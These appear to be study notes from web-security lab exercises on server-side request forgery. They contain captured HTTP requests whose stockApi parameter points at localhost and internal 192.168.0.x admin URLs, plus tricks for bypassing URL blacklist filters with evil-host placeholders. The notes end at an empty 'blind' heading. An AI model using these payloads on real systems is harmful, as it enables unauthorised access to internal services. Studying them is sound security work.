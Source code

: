 # SSRF attacks against the server itself
In contast to the CSRF we access the some pages of the internal website bypassing client side
Example: 

* Usually we get the stockAPI in body, but we just might change this to an admin url

POST /product/stock HTTP/1.1
Host: ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac1d1f9e1f0e1ac480111d2a008800cd.web-security-academy.net
Content-Length: 107
Connection: close
Cookie: session=9mPUQjbu8oDIWg9Hxexc9mPvamTZfsDG

stockApi=http://localhost/admin

# SSRF attacks against other back-end systems
where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses

Example: 
* administrative interface at the back-end URL https://192.168.0.68/admin

POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin 

* to find out the IP you might interate 192.168.0.x

# SSRF with blacklist-based input filters

* You can embed credentials in a URL before the hostname, using the @ character. For example: https://expected-host@evil-host.
* You can use the # character to indicate a URL fragment. For example: https://evil-host#expected-host.
* You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: https://expected-host.evil-host.
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. 

# blind
